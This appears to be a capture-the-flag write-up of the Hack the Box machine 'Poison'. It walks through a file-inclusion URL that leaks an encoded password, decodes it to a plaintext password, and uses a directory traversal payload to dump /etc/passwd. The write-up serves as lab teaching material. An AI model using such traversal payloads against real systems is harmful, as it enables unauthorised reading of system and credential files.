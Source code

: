 # Poison - Hack the Box machine

URL: `http://10.10.10.84/browse.php?file=pwdbackup.txt`.

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

After a few rounds of base64 decoding, I got the password `Charix!2#4%6&8(0`. However, it does not mention what the password is for. So, I wanted to check if it is the password for any of the users in the machine.

If we can print out a file's content by including its name in the `file` parameter, then why not try using directory travesal to print out the content of `/etc/passwd`? 

URL:`http://10.10.10.84/browse.php?file=../../../../../../../../../../../etc/passwd`

![](hackthebox_machines_Poison_passwd_file.png)

The output is a little messy, so I tidied it up here:
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # 
root:*:0:0:Charlie &:/root:/bin/csh 
toor:*:0:0:Bourne-again Superuser:/root: 
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin 
operator:*:2:5:System &:/:/usr/sbin/nologin 
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin 
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin 
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin 
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin 
news:*:8:8:News Subsystem:/:/usr/sbin/nologin 
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin 
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin 
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin 
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin 
```
